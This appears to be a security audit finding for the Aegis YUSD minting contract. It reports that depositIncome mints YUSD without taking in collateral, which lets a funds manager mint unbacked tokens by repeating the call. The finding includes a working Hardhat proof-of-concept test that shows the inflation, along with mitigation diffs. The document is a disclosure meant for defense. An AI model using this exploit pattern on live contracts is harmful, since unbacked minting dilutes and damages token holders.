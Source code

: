 Magic Sable Flamingo

High

# `depositIncome` Allows Minting contract to mint YUSD without Collateral Asset Which Breaks Platform Invariant

### Summary

[Docs](https://docs.aegis.im/overview/security) clearly indicates that "New YUSD can only be created when USDT, USDC, or DAI is deposited 
into the Aegis Mint smart contract."

Also, the following invariants must always hold:  
• The total amount of underlying assets must always match or exceed the total user liabilities or issued tokens.

However, [minting process](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L423
) in `depositIncome` allows minting YUSD without the collateral asset transfer. 

If it designed this way in purpose, as:
- Sending the collateral asset income to minting contract (from outside of the minting contract)
- increasing `availableAssetFunds`
- and minting the corresponding YUSD
It is still breaks the platform invariant since everytime income is deposited, because  `_custodyTransferrableAssetFunds` is updated as follows:
`_custodyTransferrableAssetFunds[order.collateralAsset] += order.collateralAmount;`

This allows a Fund Manager to mint infinite amount of YUSD with e.g. 100 USDC
This case is explained in detail in the PoC below. 

### Root Cause

In `AegisMinting.sol#L423` collateral transfer is missing. 

### Internal Pre-conditions

1. FUNDS_MANAGER should call depositIncome(). 

### Attack Path

1. There is 100 USDC in mintingContract (`availableAssetFunds`) (in ideal scenario there should not be 'untracked' assets, so assumed that platform transfers some profit collateral to minting contract)
2. FUND_MANAGER called the `depositIncome` with order (amount 100USDC)
3. 100 YUSD is minted and _custodyTransferrableAssetFunds[USDC] = 100
4. If this amount is transferred to the custody and it transfered back like the assumption in the first step, non-collateralized YUSD is minted. 

### Impact

Protocol doesn't return it's promise. YUSD can be minted easily (in purpose or mistakenly) without be backed by a collateral. All users will be affected by the inflation. 

### PoC


paste this test to `aegis-contracts/test/4_aegis_minting.spec.ts:337` (after `describe('success', () => {`)

```javascript
 it('doesnt transfer the collateral asset to the minting contract', async () => {
        const [owner, sender] = await ethers.getSigners()
        const { aegisMintingContract, aegisMintingAddress, assetContract, assetAddress, yusdContract, aegisRewardsAddress, aegisConfig } = await loadFixture(deployFixture)

        await aegisMintingContract.grantRole(FUNDS_MANAGER_ROLE, owner)

        await aegisMintingContract.grantRole(COLLATERAL_MANAGER_ROLE, owner)
        await aegisConfig.setOperator(owner, true)

        // custodian account setup
        await ethers.provider.send("hardhat_setBalance", [
          custodianAccount.address, 
          "0x" + ethers.parseEther("10").toString(16)
        ]);
        const custodianSigner = await ethers.getImpersonatedSigner(custodianAccount.address);

        // at the beginning there is 100 USDC available in the minting contract (similar to test case 'should split YUSD rewards between InsuranceFund and AegisRewards addresses')
        await assetContract.mint(aegisMintingAddress, ethers.parseEther('100'))
        
        const snapshotId = 'test'
        const collateralAmount = ethers.parseEther('100')
        const yusdAmount = ethers.parseEther('100')
        const blockTime = await time.latest()
        const order = {
          orderType: OrderType.DEPOSIT_INCOME,
          userWallet: owner.address,
          beneficiary: ethers.ZeroAddress,
          collateralAsset: assetAddress,
          collateralAmount: collateralAmount,
          yusdAmount: yusdAmount,
          slippageAdjustedAmount: 0,
          expiry: blockTime + 10000,
          nonce: Date.now(),
          additionalData: encodeString(snapshotId),
        }
        const signature = await signOrder(order, aegisMintingAddress)

        const incomeFee = (yusdAmount * INCOME_FEE_BP) / MAX_BPS
        const aegisRewardsYUSDRewardsAmount = yusdAmount - incomeFee

        await expect(aegisMintingContract.depositIncome(order, signature)).to.
          emit(yusdContract, 'Transfer'). // from _mint
          withArgs(ethers.ZeroAddress, aegisRewardsAddress, aegisRewardsYUSDRewardsAmount).
          emit(aegisMintingContract, 'DepositIncome').
          withArgs(snapshotId, owner.address, assetAddress, collateralAmount, aegisRewardsYUSDRewardsAmount, incomeFee, blockTime+1)


        // 100 YUSD minted successfully
        const totalSupplyBefore = await yusdContract.totalSupply()
        console.log("YUSDC total supply after first depositIncome: ", totalSupplyBefore.toString());

        // now there are 100 USDC available to be transferred to the custody
        const custodianAccountBalanceBefore = await assetContract.balanceOf(custodianAccount.address)
        const custodyAvailableAssetBalanceAfter = await aegisMintingContract.custodyAvailableAssetBalance(assetAddress);
        console.log("custodyAvailableAssetBalanceAfter: ", custodyAvailableAssetBalanceAfter.toString());
        console.log("custodianAccountBalanceBefore: ", custodianAccountBalanceBefore.toString());

        await expect(aegisMintingContract.transferToCustody(custodianAccount.address, assetAddress, collateralAmount)).to.
          emit(aegisMintingContract, 'CustodyTransfer').
          withArgs(custodianAccount.address, assetAddress, collateralAmount)

        // custodianAccount has the 100 USDC collateral
        await expect(assetContract.balanceOf(custodianAccount.address)).eventually.to.be.equal(custodianAccountBalanceBefore + collateralAmount)
        const custodianAccountBalanceAfter = await assetContract.balanceOf(custodianAccount.address)
        console.log("custodianAccountBalanceAfter: ", custodianAccountBalanceAfter.toString());

        // Sends it back to the mintingContract
        await assetContract.connect(custodianSigner).transfer(aegisMintingAddress, collateralAmount);
        await expect(assetContract.balanceOf(custodianAccount.address)).eventually.to.be.equal(custodianAccountBalanceBefore);

        // Create a new order with all the same properties but a different nonce
        const order2 = { ...order, nonce: Date.now() };
        const signature2 = await signOrder(order2, aegisMintingAddress);

        await expect(aegisMintingContract.depositIncome(order2, signature2)).to.
          emit(yusdContract, 'Transfer'). // from _mint
          withArgs(ethers.ZeroAddress, aegisRewardsAddress, aegisRewardsYUSDRewardsAmount).
          emit(aegisMintingContract, 'DepositIncome')//.
          //withArgs(snapshotId, owner.address, assetAddress, collateralAmount, aegisRewardsYUSDRewardsAmount, incomeFee, blockTime+4)


        const totalSupplyAfter = await yusdContract.totalSupply()
        console.log("YUSDC total supply after second depositIncome:", totalSupplyAfter.toString());
        
        // with 100 USDC we minted 200 YUSD and it can be done infinitely!
        await expect(totalSupplyAfter).to.be.equal(collateralAmount * 2n);
      })
```


### Mitigation


Change the `depositIncome` as below: 

```diff
	// Mint YUSD rewards to AegisRewards contract
+	IERC20(order.collateralAsset).safeTransferFrom(order.userWallet, address(this), order.collateralAmount);
    yusd.mint(address(aegisRewards), mintAmount);
    aegisRewards.depositRewards(order.additionalData, mintAmount);
```

If the purpose is minting for the untracked colletaral amount in mintingContract (which is not ideal), don't add this amount to the `_custodyTransferrableAssetFunds`:

```diff
	uint256 yusdAmount = _calculateMinYUSDAmount(order.collateralAsset, order.collateralAmount, order.yusdAmount);

-   _custodyTransferrableAssetFunds[order.collateralAsset] += order.collateralAmount;

    // Transfer percent of YUSD rewards to insurance fund
    (uint256 mintAmount, uint256 fee) = _calculateInsuranceFundFeeFromAmount(yusdAmount, incomeFeeBP);
    if (fee > 0) {
      yusd.mint(insuranceFundAddress, fee);
    }
```
